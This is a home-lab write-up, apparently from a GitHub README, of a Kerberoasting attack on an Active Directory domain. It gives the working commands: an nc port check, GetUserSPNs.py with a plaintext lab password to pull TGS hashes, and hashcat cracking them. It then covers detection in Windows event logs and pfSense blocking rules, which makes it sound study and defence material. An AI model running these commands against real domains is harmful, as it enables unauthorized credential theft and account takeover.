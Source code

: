 # Active Directory Attack Playbook (Kerberos-based SPN Extraction and Credential Compromise)

## Overview

- **Target:** Active Directory Domain Controller (within the soc.lab domain)
  - **IP Address:** 192.168.10.10
  - **Domain:** SOC.LAB

- **Attacker:** Kali
  - **IP Address:** 192.168.20.30

## Objective

The objective of this attack was to enumerate and extract Service Principal Names (SPNs) from the Active Directory environment, then crack the Kerberos TGS hashes to gain unauthorized access to domain accounts. Prior attacks had already revealed user credentials and access to the Active Directory domain, facilitating this attack.

## Attack Execution Timeline

1. **Kerberos Port Check**
   - Verified that the Kerberos service (port 88) is open on the Domain Controller:
     ```bash
     nc -vz 192.168.10.10 88
     ```
   - ![hash](https://github.com/user-attachments/assets/25122eab-7eb9-4de7-a62d-2ceeda7e50c9)

2. **DNS Configuration Update**
   - Updated the default DNS IP to point directly to the Domain Controller.
  
3. **SPN Extraction**
   
   - Ran the `GetUserSPNs.py` script from the mpacket toolkit to request SPNs and attempt Kerberos TGS hash extraction:
     ```bash
     python3 GetUserSPNs.py SOC.LAB/labadmin:Root1234! -request
     ```
   - ![hash](https://github.com/user-attachments/assets/25122eab-7eb9-4de7-a62d-2ceeda7e50c9)

5. **Hash Cracking**
   
   - Cracked the extracted Kerberos TGS hash using hashcat with the rockyou.txt wordlist, saving the results to `cracked.txt`:
     ```bash
     hashcat -m 13100 spn_hash.txt /usr/share/wordlists/rockyou.txt --force -o cracked.txt
     ```
   - ![hash](https://github.com/user-attachments/assets/25122eab-7eb9-4de7-a62d-2ceeda7e50c9)

## Monitoring Windows Logs

### Sysmon Logs Analysis

- **Observation:**
  - Multiple Sysmon log entries with **Event ID 3** were observed.
  - All connections originated from IP `192.168.10.10`, targeting `192.168.20.30`.
  - Different ephemeral ports were utilized, indicating automated scanning or communication.
- ![multipleSysmonlogs](https://github.com/user-attachments/assets/01ab753c-f8f0-42d1-8882-62f2a652937a)

### Windows Security Logs

- **Event ID 4769 – Kerberos Service Ticket Request**
  - Numerous requests for Kerberos Service Tickets were recorded from the same source IP.
- ![kerberos_tickets](https://github.com/user-attachments/assets/9275278e-067c-466c-a2bd-3fc551e18f81)

### Detailed User Log Analysis

- **User Activity:**
  - Analysis of individual logs showed multiple ticket requests for user accounts such as *Jordan* and *Candace*.
  - **User Jordan:**  
    ![Jordan](https://github.com/user-attachments/assets/4aab463d-1130-48ea-affc-d23800dd389f)
    
  - **User Candace:**  
    ![candace_rojas](https://github.com/user-attachments/assets/0fa652ef-089b-4bde-97b4-280412b502bf)

- **Logoff Event:**
  - Shortly after the last Kerberos Service Ticket Request, a **Logoff** event (Event ID 4634) was recorded for user `labadmin`.
  - ![logoff](https://github.com/user-attachments/assets/11d039c9-4803-432e-ae34-a427b6db934a)


## **Firewall Rules on pfSense:**
1- **Create an Alias for Internal Systems:**

 - ![aliases](https://github.com/user-attachments/assets/103ebae0-d0c5-4883-b196-d6356225c08c)


2- **Block Unauthorized Kerberos Requests:**
 - ![firstrule](https://github.com/user-attachments/assets/116965fc-3f84-4b72-b76b-414d10214746)

Explanation:
- This rule blocks any Kerberos traffic (port 88) from devices that are not domain controllers (!Alias, that I created in rule 1), which prevents unauthorized users from interacting with the Kerberos service and reduces the risk of Kerberoasting.

3- **Limit External and Internal LDAP Queries:**
- ![rule3](https://github.com/user-attachments/assets/d31cc115-efc6-4a93-b269-133962b478db)

Explanation
- This prevents attackers from using LDAP enumeration tools (like GetUserSPNs.py), a well knowed script, to extract Service Principal Names. LDAP is only needed for trusted systems—blocking it for regular users reduces exposure, like we've just seen.

Note: In this experiment, CrowdSec was disabled to allow this action to proceed, but the rules are on the configs directory.


